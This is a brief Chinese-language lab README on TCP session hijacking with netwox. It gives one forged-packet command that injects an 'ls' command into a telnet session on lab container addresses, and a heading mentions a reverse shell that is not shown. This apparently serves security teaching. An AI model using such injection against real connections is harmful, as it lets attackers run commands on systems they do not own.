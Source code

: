 ## 用netwox进行TCP会话劫持攻击，包括注入普通命令和反向shell  

### 普通命令

![image-20220410211432495](readme.assets/image-20220410211432495.png)



```bash
# 劫持TCP并注入ls命令
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40502 --tcp-dst 23 --tcp-seqnum 531069635 --tcp-acknum 497783905 --tcp-ack --tcp-window 227 --tcp-data "6c730d00"

```

### 

![image-20220410212109026](readme.assets/image-20220410212109026.png)
